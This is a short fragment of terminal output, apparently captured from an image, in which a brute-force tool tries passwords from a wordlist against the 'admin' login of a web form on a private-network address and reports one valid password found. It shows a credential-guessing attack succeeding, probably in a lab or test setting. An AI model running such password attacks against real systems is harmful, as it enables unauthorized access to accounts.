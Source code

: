 ```bash
[ATTEMPT] target 192.168.206.1 - login "admin" - pass "CYBERDOCS31" - 7 of 935 [child 0]
[ATTEMPT] target 192.168.206.1 - login "admin" - pass "INSTALL_admin" - 8 of 935 [child 2]
[ATTEMPT] target 192.168.206.1 - login "admin" - pass "Log" - 9 of 935 [child 1]
[ATTEMPT] target 192.168.206.1 - login "admin" - pass "yourpass" - 10 of 935 [child 0]
[ATTEMPT] target 192.168.206.1 - login "admin" - pass "Logs" - 11 of 935 [child 3]
[ATTEMPT] target 192.168.206.1 - login "admin" - pass "Pages" - 12 of 935 [child 1]
[ATTEMPT] target 192.168.206.1 - login "admin" - pass "youradmin" - 13 of 935 [child 2]
[80][www-form] host: 192.168.206.1   login: admin   password: yourpass
1 of 1 target successfully completed, 1 valid password found
```

